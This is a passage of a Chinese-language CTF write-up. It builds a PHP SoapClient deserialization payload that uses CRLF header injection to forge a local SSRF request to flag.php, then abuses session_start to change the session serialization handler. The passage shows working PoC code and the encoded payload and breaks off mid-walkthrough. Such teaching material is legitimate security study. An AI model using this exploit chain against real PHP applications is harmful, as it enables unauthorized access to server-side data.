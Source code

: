 可见当REMOTE_ADDR等于127.0.0.1时，就会在session中插入flag，就能得到flag。很明显了，要利用ssrf。

但是这里并没有明显的ssrf利用点，所以我们想到利用PHP原生类SoapClient触发反序列化导致SSRF。并且，由于flag会被插入到session中，所以我们就一定需要携带一个cookie即PHPSESSID去访问它来生成这个session文件。

写出最后的POC：

```
<?php
$target = "http://127.0.0.1/flag.php";
$attack = new SoapClient(null,array('location' => $target,
    'user_agent' => "N0rth3ty\r\nCookie: PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4\r\n",
    'uri' => "123"));
$payload = urlencode(serialize($attack));
echo $payload;
```

生成payload：

```
O%3A10%3A%22SoapClient%22%3A4%3A%7Bs%3A3%3A%22uri%22%3Bs%3A3%3A%22123%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A11%3A%22_user_agent%22%3Bs%3A56%3A%22N0rth3ty%0D%0ACookie%3A+PHPSESSID%3Dtcjr6nadpk3md7jbgioa6elfk4%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D

```

这里这个POC就是利用CRLF伪造本地请求SSRF去访问flag.php，并将得到的flag结果保存在cookie为 `PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4` 的session中。

然后，我们就要想办法反序列化这个对象，但这里有没有反序列化点，那么我们怎么办呢？我们在题目源码中发现了session_start();，很明显，我们可以用session反序列化漏洞。但是如果想要利用session反序列化漏洞的话，我们必须要有 `ini_set()` 这个函数来更改 `session.serialize_handler` 的值，将session反序列化引擎修改为其他的引擎，本来应该使用ini_set()这个函数的，但是这个函数不接受数组，所以就不行了。于是我们就用session_start()函数来代替，即构造 `session_start(serialize_handler=php_serialize)` 就行了。我们可以利用题目中的 `call_user_func($_GET['f'], $_POST);` 函数，传入GET：/?f=session_start、POST：serialize_handler=php_serialize，实现 `session_start(serialize_handler=php_serialize)` 的调用来修改此页面的序列化引擎为php_serialize。

所以，我们第一次传值先注入上面POC生成的payload创建并得到我们的session：

![image-20231213181748758](assets/image-20231213181748758.png)
